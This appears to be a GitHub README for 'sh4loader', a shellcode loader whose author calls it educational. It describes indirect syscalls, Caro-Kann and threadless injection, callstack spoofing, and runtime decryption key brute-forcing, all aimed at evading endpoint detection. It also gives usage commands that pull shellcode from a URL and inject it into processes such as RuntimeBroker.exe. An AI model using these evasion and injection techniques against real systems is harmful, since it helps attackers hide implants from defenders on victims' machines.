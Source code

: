 # This project is being refactored

## TODO

- no CRT
- sleepobf
- more stable
- rewrite code

# sh4loader

<p align="center">
<img src="https://raw.githubusercontent.com/Sh4N4C1/gitbook/main/images/sh4loader.png" alt="sh4loader">
</p>

## ✨ Function

- **Indirect Syscall**: sh4loader use `indirect` syscall.
- **Caro Kann**: sh4loader use [Caro-Kann](https://github.com/S3cur3Th1sSh1t/Caro-Kann) injection to evade kernel triggered memory scans.
- **Runtime Decrypt Shellcode**: sh4loader will bruteforce shellcode decryption key at runtime.
- **Threadless injection**: sh4loader use threadless injection.
- **CallstackSpoofing**: sh4loader use [CallstackSpoofing](https://github.com/pard0p/CallstackSpoofingPOC)

## Injection Method

- Local Common Injection
- Callstack spoof common Injection
- Caro-Kann Callstack spoof common Injection
- Caro-Kann threadless Injection
- Caro-Kann callstack spoff threadless Injection

## Install

```bash
git clone https://github.com/sh4n4c1/sh4loader.git
cd sh4loader
cargo build --release
./target/release/sh4loader --help
```

if build failed, we need update rustc

```bash
curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh # update rustc
```

## Usage

```bash
sh4loader <injection-method> --shellcode-url <url> --output-path <project_output> --shellcode-path <shellcode_path>
```

## Detail

### Caro-Kann Callstack spoof threadless Injection

```bash
sh4loader kann-threadless-stack --shellcode-url <url> --output-path <project_output> --shellcode-path <shellcode_path>
```

This implant will find two memory, one for the `xor-encrypted main shellcode`, and one for the `Caro-Kann shellcode`. In threadless injection, it will first hook the target function, and then jump to the fixed shellcode to save the function state and then jump Go to Caro-Kann shellcode, Caro-Kann will help us decrypt and execute the main shellcode

```
  TARGET PROCESS
+-----------------+
|  [function A]   |------+ hooked function called and jump to our <save and jump shellcode> (1)
|    <hooked>     |      |
+-----------------+      |
|   MEMORY HOLE   |      |
| <save and jump> |<-----+ the <save and jump shellcode> will save hooked function state and jump to Caro (2)
|   <Caro-Kann>   |------+ <Caro-Kann shellcode> will sleep and decrypt <main shellcode> (3)
+-----------------+      |
|  [function B]   |      |
+-----------------+      |
|   MEMORY HOLE   |      |
| <main shellcode>|<-----+ <Caro-Kann shellcode> jump to <main shellcode> (4)
+-----------------+
```

1. During the execution of the implant, shellcode is patched to save the jump address.
2. [Callstack spoof](https://github.com/pard0p/CallstackSpoofingPOC) means that NtAPI will be called using the TpReleaseWork proxy.
3. The default function A and function B are `NtWaitForMultipleObjects` and `NtCreateWnfStateName` respectively. The default process is `RuntimeBroker`,because after using API Monitor I found that the RuntimeBroker process seems to call NtWaitForMultipleObjects every other time, and the NtCreateWnfStateName function is used to store the main shellcode.If you want to modify these default functions and processes, you can modify `include/KannThreadStackInj.h` in the implant project directory and Recompile with command `make KannThreadlessStackInj`

```c
// include/KannThreadStackInj.h

#define TARGET_PROCESS "RuntimeBroker.exe"      // Target process
#define TARGET_FUNC_TWO "NtCreateWnfStateName"  // Function B
#define TARGET_DLL "ntdll.dll"                  // Dll export Function A/B
#define TARGET_FUNC "NtWaitForMultipleObjects"  // Function A
```

### Caro-Kann threadless Injection

```bash
sh4loader kann-threadless-stack --shellcode-url <url> --output-path <project_output> --shellcode-path <shellcode_path>
```

Same as above, but using indirect syscalls instead of proxy calls.

### Caro-Kann Callstack spoof common Injection

```bash
sh4loader kann-spoofstacks --shellcode-url <url> --output-path <project_output> --shellcode-path <shellcode_path>
```

This Injection Method will use TpRelease proxy call `NtAllocateVirtualMemory` + `NtWriteVirtualMemory` + `NtCreateThreadEx` to inject Caro-Kann shellcode and encrypted main shellcode into the local process.

### Callstack spoof common Injection

```bash
sh4loader spoofstacks --shellcode-url <url> --output-path <project_output> --shellcode-path <shellcode_path>
```

This Injection Method will use TpRelease proxy call `NtAllocateVirtualMemory` + `NtWriteVirtualMemory` + `NtCreateThreadEx` to inject main shellcode into the local process.

### Local Common Injection

```bash
sh4loader common --shellcode-url <url> --output-path <project_output> --shellcode-path <shellcode_path>
```

This Injection Method just use indirect syscalls inject main shellcode into the local process.

## Resources

- https://github.com/pard0p/CallstackSpoofingPOC
- https://github.com/CCob/ThreadlessInject
- https://github.com/S3cur3Th1sSh1t/Caro-Kann
- https://github.com/caueb/ThreadlessStompingKann
- https://0xdarkvortex.dev/hiding-in-plainsight/
- https://maldevacademy.com/
- https://www.vulnlab.com/

This is my first time writing a loader.I'm not some sort of expert on malware development, C, C++.I will be making a lot of mistakes,I hope that my coding skills get better and better

Obviously, the stuff in this repository is explicitly for educational purposes.
